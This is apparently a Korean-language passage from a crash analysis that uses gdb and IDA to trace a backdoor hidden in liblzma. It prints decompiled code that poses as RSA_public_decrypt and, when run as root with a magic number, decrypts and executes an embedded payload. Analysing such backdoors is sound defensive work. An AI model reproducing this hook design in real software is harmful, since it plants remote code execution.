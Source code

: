 ```cpp
   0x7f4a18c8f8a6:      add    $0xf8,%rsp
   0x7f4a18c8f8ad:      pop    %rbx
   0x7f4a18c8f8ae:      pop    %rbp
   0x7f4a18c8f8af:      pop    %r12
   0x7f4a18c8f8b1:      pop    %r13
```

<br />


## 크래시 분석

`info proc map`을 통해 크래시 시점의 `rip`가 `Start Addr + 0x988F`임을 알 수 있다.

```cpp
(gdb) info proc mappings
Mapped address spaces:
      Start Addr           End Addr       Size     Offset objfile
      ...
      0x7f4a18c86000     0x7f4a18c8a000     0x4000        0x0 / (deleted)
      ...
```

<br />

`ida`로 `liblzma.so.5`를 연 후 `Start Addr + 0x988F` 부분에 앞서 찾았던 `
(gdb) x/10i 0x7f4a18c8f88f-4`와 동일한 어셈블리 파트가 존재한다. 이 부분의 디스어셈블리를 보면 아래와 같다. `RSA_public_decrypt`를 빙자한 백도어처럼 생겼다. 동작 구조를 대략적으로 요약하면 다음과 같다. 
1. `getuid()`, `0xC5407A48` : root 권한 및 백도어 매직 넘버 검사 
2. `sub_93F0`, `sub_9520` : `chacha20` `key, nonce` 초기화 및 `&unk_23960` 복호화
3.  `v13()` : 복호화된 데이터(백도어를 통한 원격 명령) 실행
4. `return v10(a1, a2, a3, a4, a5);` : 크래시가 발생한 포인트

```cpp
__int64 __fastcall sub_9820(unsigned int a1, _DWORD *a2, __int64 a3, __int64 a4, unsigned int a5)
{
  const char *v9; // rsi
  void *v10; // rax
  void *v12; // rax
  void (*v13)(void); // [rsp+8h] [rbp-120h]
  char v14[200]; // [rsp+20h] [rbp-108h] BYREF
  unsigned __int64 v15; // [rsp+E8h] [rbp-40h]

  v15 = __readfsqword(0x28u);
  v9 = "RSA_public_decrypt";
  if ( !getuid() )
  {
    if ( *a2 == 0xC5407A48 )
    {
      sub_93F0(v14, a2 + 1, a2 + 9, 0LL);
      v12 = mmap(0LL, dword_32360, 7, 34, -1, 0LL);
      v13 = (void (*)(void))memcpy(v12, &unk_23960, dword_32360);
      sub_9520(v14, v13, dword_32360);
      v13();
      sub_93F0(v14, a2 + 1, a2 + 9, 0LL);
      sub_9520(v14, v13, dword_32360);
    }
    v9 = "RSA_public_decrypt ";
  }
  v10 = dlsym(0LL, v9);
  return ((__int64 (__fastcall *)(_QWORD, _DWORD *, __int64, __int64, _QWORD))v10)(a1, a2, a3, a4, a5);
}
```
